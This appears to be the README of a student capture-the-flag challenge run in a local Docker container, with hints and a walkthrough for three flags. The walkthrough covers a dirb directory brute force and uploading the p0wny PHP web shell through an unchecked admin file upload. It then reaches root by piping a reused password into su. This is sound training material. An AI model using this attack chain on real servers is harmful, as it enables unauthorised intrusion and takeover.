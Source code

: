- [Challenge Overview](#challenge-overview)
- [Getting started](#getting-started)
- [Hints](#hints)
  - [Flag 1](#flag-1)
  - [Flag 2](#flag-2)
  - [Flag 3](#flag-3)
- [Solution](#solution)
  - [Flag 1](#flag-1-1)
  - [Flag 2](#flag-2-1)
  - [Flag 3](#flag-3-1)
- [More Studies](#more-studies)
  - [Reverse Shell scripts](#reverse-shell-scripts)
  - [Brute force tools](#brute-force-tools)


# Challenge Overview
This CTF Challenge was created as part of the Project Management course. It contains 3 flags and it is all about getting access one step at a time!

This challenge can be difficult for a student, so don't worry if you can't get it done. Also, don't forget to check the hints if you are struggling at some point.

# Getting started
First, download the challenge container.
```
docker pull ghcr.io/dbh201/challenge4:latest
```
Now, launch the container.
```
docker run -p 4443:4443 ghcr.io/dbh201/challenge4:latest
```
Access the website https://localhost:4443 and good luck!

At some point, you will use a reverse shell script in this challenge. If you are not familiar with them, we recommend one as a hint, so don't worry about it.

Also, Kali is not mandatory but recommended, since it has plenty of pre-installed tools that could be useful for this and other challenges. 

# Hints
## Flag 1
Can you get all 3 flags? Let's start by navigating to pages you are not supposed to see.
Wonder what kind of information you can find in there

<details>
    <summary>Hint 1</summary>
    Try navigating to a different directory
</details>

<details>
    <summary>Hint 2</summary>
    Some names are very common across different applications
</details>

<details>
    <summary>Hint 3</summary>
    Alright! Let's bruteforce! Kali has some cool pre-installed Web Crawlers & Directory bruteforces.
</details>

## Flag 2
How much can you do with your new admin account? There must be some way to control the forum.

<details>
    <summary>Hint 1</summary>
    You can definitely do a lot from the admin control panel!
</details>

<details>
    <summary>Hint 2</summary>
    Isn't it cool that you can even upload any file you want?
</details>

<details>
    <summary>Hint 3</summary>
    Some scripts (files) can even give you access to the system, just like magic.
</details>

<details>
    <summary>Hint 4</summary>
    give "p0wny" a try x)
</details>

## Flag 3
Now it's time to escalate...
You need to become root using your p0wny shell, but you can't seem to type in your password...


<details>
    <summary>Hint 1</summary>
    sudo will not work, so let's try switching user.
</details>

<details>
    <summary>Hint 2</summary>
    Can you believe some people reutilize their passwords?! Crazy, right?
</details>

<details>
    <summary>Hint 3</summary>
    It's all about the one-liners these days, isn't it?
</details>


# Solution
## Flag 1
Since we are supposed to look for pages that should be unacessible, we could try a few common names such as "/admin". However, some tools can do this job for us.

Dirb is a fantastic tool for that, and it is already installed in Kali. We can simply run it on our server (make sure you change the IP to match yours).
```bash
┌──(kali㉿kali)-[~]
└─$ dirb https://192.168.0.5:4443

...hidden output

---- Scanning URL: https://192.168.0.5:4443/ ---- 
    ==> DIRECTORY: https://192.168.0.5:4443/adm/
    ==> DIRECTORY: https://192.168.0.5:4443/data/
    ==> DIRECTORY: https://192.168.0.5:4443/images/
    + https://192.168.0.5:4443/index.php (CODE:200|SIZE:17810)   

...hidden output
```
After checking some of the results, we will eventually find the /data directory, that contains some interest files such as "flag1.txt". 

![/data files](/images/IMG1.png?raw=true)

<details>
    <summary>By checking "flag1.txt" content we will find the first flag!</summary>
    <pre><code>
    flag1: Pr0Jmngmnt15c00l

    User: admin
    Password: thispasswordishuge!

    You got the flag! What a place for a password to be, right? :P
    How much can you do with your new admin account? There must be some way to control the forum. 
</code></pre>

</details>


## Flag 2
Now that we have admin credentials, let's see what we can do with that.

First, login with your recently "stolen" credentials! Hey, they shouldn't keep it on a text file!

Exploring some of the buttons on the forum, we will eventually come across "Administration", which will take us to the Admin Control Panel.

![/Administration button location](/images/IMG2.png?raw=true)

More exploring! After checking some of the links on the Admin Control Panel, we will eventually find the "File Administration System", where we can see, download, and - most important - upload some files.

![/Admin Control Panel home page](/images/IMG3.png?raw=true)

Good for us, this forum doesn't even check what files are being uploaded, so we are going to import a script!

Some scripts can grant you access to the system, and although programming one from scratch can be done, we will simply use an already-working solution.

p0wny is a php script that will allow you to get access to the server's terminal, check it out: https://github.com/flozz/p0wny-shell

The only file we will need is "shell.php". Let's upload it and then navigate to it. Don't forget to match your IP address, port, and file name. 

```
https://192.168.0.5:4443/shell.php
```

We now have access to the server's terminal as nginx's user.

![/p0wny's terminal](/images/IMG4.png?raw=true)

Unfortunely, we can't really find the flag here, so we need to navigate on the system. Changing our directory to www-data's home directory, then listing the files there, we will see flag2.txt.

```
cd
ls
cat flag2.txt
```

<details>
    <summary>Let's see what's inside of it</summary>
    <pre><code>
    flag2: BforBodyNotBook-ofKnowledge

    You got the flag! Now it's time to escalate...

    You need to become root using your p0wny shell, but you can't seem to type in your password...
</code></pre>

</details>

## Flag 3
Let's try escalating then! Why not starting with `sudo`?

```
www-data@fc1b13fe1365:/var/www# sudo ls /root
sh: 1: sudo: not found
```

Unfortunetely, `sudo` doesn't seem to work. How about we simply try to switch user with `su`?

```
www-data@fc1b13fe1365:/var/www# su 
Password: su: Authentication failure
```

Although `su` worked, the terminal doesn't prompt us for the password, maybe there is a way to provide that password in a one-liner?

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root
Password:
www-data@fc1b13fe1365:/var/www#
```

So this time we got no `Authentication failure`; lucky us that the owner of this system decided to reuse his password. But if you check the user, it is still the same. Let's see if we can pass any command to that user.

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root -c "ls"
Password: flag3.txt
```

The prompt is definitely a bit weird, but we just listed items on root. Let's also read it with `cat`!

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root -c "ls; cat flag3.txt"
Password: flag3.txt
flag3: plzM477letU5pass

You got the last flag! Wasn't that easy?
```

Hope you enjoyed this challenge as much as we did!


# More Studies
If you want to go deeper into what you practiced in this Challenge, check some recommendations.

## Reverse Shell scripts
A reverse shell script was used in this challenge to gain access to the target machine. Although it was used to simulate an attack, these scripts can be used with no ill intentions.

Besides that, reverse shell scripts can be programmed in different languages, and even customized to your own project. Check some by yourself!

## Brute force tools
Bruteforce is a well known strategy that consists in trying over and over different combinations until you get the right one.

Although we use a directory brute force in this Challenge, there are many other types of brute force tools, the most common being password crackers. But also give it a try to explore other tools that interact with DNS and even biometrics. 


